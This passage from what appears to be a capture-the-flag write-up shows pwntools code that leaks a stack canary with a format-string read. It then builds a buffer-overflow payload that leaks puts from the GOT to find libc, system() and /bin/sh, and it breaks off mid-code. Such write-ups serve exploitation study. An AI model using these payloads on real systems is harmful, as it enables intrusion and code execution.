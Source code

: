 
![detecting_canary](./img/detecting_canary.png)

😒 well ofcorce there are many ways but seeing this makes you wonder there are unlimited possibilities

donot worry other bruteforcing method will be implimented in the remote secrtion 

i lied there are no unlimited possibilities as the canary was in `171` offset you will need to double cheak


```python
p.sendline(b"%171$p")  # Print the 171st value on stack (canary)
p.recvuntil("Congrats: ")
canary = int(p.recvline().decode().strip(), 16)
print("Canary:", hex(canary))
```

**Result:** We obtain the stack canary value, which is needed to safely overflow the buffer without crashing the program.

---


3. **Leaking `puts()` Address** – allows calculation of the libc base to compute `system()` and `/bin/sh` addresses.


We need the **libc base address** to call `system()` and pass `/bin/sh`. We do this by leaking the address of `puts` in the **GOT**:

```python
puts_plt  = elf.plt['puts']
main_addr = elf.symbols['main']
puts_got  = elf.got['puts']

p.recvuntil("What number would you like to guess?")
p.sendline(magic_number)   # trigger win() again

# build payload: buffer(512) + canary + padding(12) + puts@plt + main + puts@got
payload = flat(
    b"A" * 512,
    p32(canary),       # include canary
    b"B" * 12,         # padding (12)
    puts_plt,          # ret -> puts@plt
    main_addr,         # return to main
    puts_got           # argument to puts
)

p.recvuntil(b"Name? ")
p.sendline(payload)

# skip winner line
p.recvuntil(b"Congrats: ")
junk = p.recvline()

# read the actual leaked bytes
```